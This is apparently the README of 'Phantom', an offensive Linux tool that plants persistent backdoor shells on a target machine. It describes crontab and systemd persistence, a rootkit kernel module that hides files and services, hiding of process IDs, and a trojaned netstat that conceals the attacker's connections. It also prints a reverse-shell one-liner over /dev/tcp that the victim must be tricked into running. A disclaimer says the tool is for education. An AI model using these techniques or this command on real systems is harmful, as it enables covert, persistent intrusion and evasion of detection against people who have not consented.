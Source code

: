 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every 5 minutes to the attacker's machine, but to a different port than the first one. So, essentially
you need to specify two ports. The reason for this is that this way you have more control of what to do with the backdoor shell,
otherwise the same payload gets executed each time the target connects to your machine.

## Usage

```
phantom-init	ip 1st-port 2nd-port
```
*	ip: the attacker's ip
*	1st-port: the port that listens for connections to deliver the payload
*	2nd-port: the port that listens for the backdoor shells after delivering the payload

## Files

*	phantom-init: Opens an ncat listening process to a predefined ip and port and redirects input to the payload file.

*	payload: This is the file that gets executed when the target connects to the listening ncat 1st-port. It does the following:
	* If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
	backdoor shell to the 2nd-port.
	* If the user connecting is root it creates a systemd service which executes a script, continuously trying to
	create a backdoor bash shell to your machine (2nd-port). It also creates a systemd service which executes a script,
	hiding the pids of the backdoor shells and both of the systemd services (ps aux cannot find them this way). It then
	creates and inserts a rootkit module named usb-bus which hides its files, the ones of the scripts that the systemd services use
	and the systemd services themselves. It is also persistent through reboots because the second systemd service
	(the one which hides pids) inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote
	connections to the specified ip and 2nd-port.

*	phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system.
It can also undo changes made to the nft ruleset by using the argument -r | -R .

You have to somehow make the target execute this code, so that he connects to the 1st-port:  
bash -c 'bash &>/dev/tcp/ip/1st-port 0>&1 &'  
ip and 1st-port are the ones specified above.

## Order of execution

* Before delivering the payload:
	1. Execute phantom-init and wait for the target to connect to your machine.

* After delivering the payload:
	1. Execute phantom-firewall as root, so it can modify the firewall rules.
	2. Create a ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)

## Order of closing

1.	Close phantom-firewall and wait for some seconds so the connections can start flowing normally again.
2. 	Close the ncat listening process so all the connections get closed with it.
3. 	Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
		This is needed if you want to open ncat again and for the target to be able to connect to you again, otherwise a nftables rule is gonna
		block him.

### Contact Information

Konstantinos Sarantopoulos  
konsaranto@gmail.com
